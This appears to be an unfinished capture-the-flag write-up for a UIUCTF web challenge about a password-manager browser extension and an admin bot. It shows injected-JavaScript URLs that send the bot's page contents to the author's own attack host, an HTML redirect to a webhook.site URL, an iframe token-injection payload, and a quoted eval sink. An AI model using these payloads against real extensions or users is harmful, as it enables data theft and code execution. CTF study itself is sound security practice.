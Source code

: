 ```yaml
---
created: 2024-06-29T18:39
updated: 2024-06-30T20:50
---
```

# Handout

**FAILED TO SOLVE**

I am allowed to make the bot visit any website, so...

## Analyze

The bot's window has some extra keys

```js
['event', 'fence', 'sharedStorage', 'fetchLater', 'onpageswap', 'onpagereveal', 'model']
```

The bot does the following things
- Goto https://pwnypass.c.hc.lc/login.php
- Fill up username password and submits
- Goto my URL

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=track({chrome:chrome})`

### Chrome
Turns out chrome is accessible.

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=track({a:analyze(chrome)})&no`
```json
{
    "loadTimes:function": {
        "requestTime": 1719704395.397,
        "startLoadTime": 1719704395.397,
        "commitLoadTime": 1719704395.543,
        "finishDocumentLoadTime": 0,
        "finishLoadTime": 0,
        "firstPaintTime": 0,
        "firstPaintAfterLoadTime": 0,
        "navigationType": "Other",
        "wasFetchedViaSpdy": true,
        "wasNpnNegotiated": true,
        "npnNegotiatedProtocol": "h3",
        "wasAlternateProtocolAvailable": false,
        "connectionInfo": "h3"
    },
    "csi:function": {
        "startE": 1719704395397,
        "onloadT": 0,
        "pageT": 155.841,
        "tran": 15
    },
    "app:object": {
        "isInstalled:boolean": false,
        "getDetails:function": null,
        "getIsInstalled:function": false,
        "runningState:function": "cannot_run",
        "InstallState:object": {
            "DISABLED:string": "disabled",
            "INSTALLED:string": "installed",
            "NOT_INSTALLED:string": "not_installed"
        },
        "RunningState:object": {
            "CANNOT_RUN:string": "cannot_run",
            "READY_TO_RUN:string": "ready_to_run",
            "RUNNING:string": "running"
        }
    }
}
```

Nothing interesting... Maybe add some delay?

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=setTimeout(()=>{track({a:genTree(document),b:allInputs()})},5000)&no`

Theres a DIV element added.

Send `https://attack.octo-kumo.me/attack/uiuctf?extra=setTimeout(()=>{track({a:document.body.innerHTML})},5000)&no`

```html
<div class="pwnypass-autofill-host" style="position: fixed !important; z-index: 9999 !important; inset: 0px !important; pointer-events: none !important;"></div>
```

hrmm...

### Background.js
```js
async function evaluate(_origin, data) {
    return eval(data);
}


const commands = {
    read,
    write,
    evaluate // DEPRECATED! Will be removed in next release.
}
```
Then I realized this.

So what's between me and that sweat `eval`? A custom token.

```js
if (await doHmac(token) !== hmac) return;                       // I need to obtain hmac from issue
let [ts, tab, origin, command] = token.split("|");              // payload be [time, tabid, mytab, 'evaluate','code','dummy']
if (parseInt(ts) + 60*5 < Math.floor(Date.now()/1000)) return;  // i have 5 minutes
if (sender.tab.id !== parseInt(tab)) return;                    // it must be from the same tab
if (await getOrigin(parseInt(tab)) !== origin) return;          // the tab must be of that origin
```

### Autofill.js

We can inject into that little popup via username and password.

```html
<meta http-equiv="refresh" content="0; url=https://webhook.site/7ca133e5-af27-40b3-b713-5f5c700fd52d">
```

It works but is not useful.

I can also inject an iframe.

```html
<iframe src="./autofill.html?token=TOKEN&hmac=HMAC"></iframe>
```

It allows me to pass any token and hmac, but I still have to obtain their values first.

... Idk.